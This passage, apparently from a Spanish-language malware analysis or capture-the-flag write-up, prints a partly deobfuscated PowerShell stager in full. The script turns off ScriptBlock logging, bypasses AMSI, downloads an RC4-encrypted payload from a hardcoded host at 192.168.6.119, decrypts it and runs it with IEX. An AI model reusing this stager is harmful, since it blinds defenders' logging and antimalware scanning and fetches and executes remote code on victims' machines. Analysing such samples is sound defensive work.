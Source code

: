 Este es el mismo script, pero eliminé algunas ofuscaciones para obtener una mejor vista:

```
If($PSVErSioNTaBLe.PSVErSIoN.MAjor -gE 3)
{
	$GPF=[rEf].AsSeMblY.GetTYpE('System.Management.Automation.Utils')."GeTFieLd"('cachedGroupPolicySettings','NonPublic,Static');
	If($GPF)
	{
		$GPC=$GPF.GeTValUE($NULL);
		IF($GPC['ScriptBlockLogging'])
		{
			$GPC['ScriptBlockLogging']['EnableScriptBlockLogging']=0;
			$GPC['ScriptBlockLogging']['EnableScriptBlockInvocationLogging']=0
		}
		$Val=[ColLECTionS.GENeric.DIcTiOnarY[STriNG,SystEm.Object]]::NEw();
		$vAL.ADD('EnableScriptBlockLogging',0);
		$VAL.AdD('EnableScriptBlockInvocationLogging',0);
		$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']=$vAL
	}
	ElSe
	{
		[ScRIPtBloCk]."GETFIElD"('signatures','NonPublic,Static').SetVALUe($nuLl,(New-OBJect COllEcTIONs.GenErIC.HASHSet[sTRInG]))
	}
	[REF].AsSEMBLY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeld('amsiInitFailed','NonPublic,Static').SETVALUe($null,$true)};
};
[SystEM.NeT.SErvicEPOINTManAGeR]::EXPeCt100CoNTinUe=0;
$wC=New-ObJecT SYsTem.NET.WeBCLIENt;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$WC.HEaDERS.ADd('User-Agent',$u);
$wC.PRoxY=[SYsteM.NET.WEbRequest]::DeFAulTWEbPROxY;
$wC.Proxy.CREdentIaLs = [SyStEM.NEt.CReDenTiaLCACHE]::DefAultNEtWorkCReDEntiALs;
$Script:Proxy = $wc.Proxy;
$K=[SYsTEm.TEXT.ENcODinG]::ASCII.GeTBYtEs('fdcece0a22c10f83dccc8f17c95a33d4');
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$wc.HeADeRs.AdD("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$Wc.HeaDeRs.Add("Accept-Language","en-en");
$WC.HEADErS.AdD("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
$DAtA=$WC.DOWnlOADDAtA($SEr+$T);
$iv=$datA[0..3];
$Data=$DATa[4..$DATA.LENgTh];
-jOiN[ChaR[]](& $R $Data ($IV+$K))|IEX
```
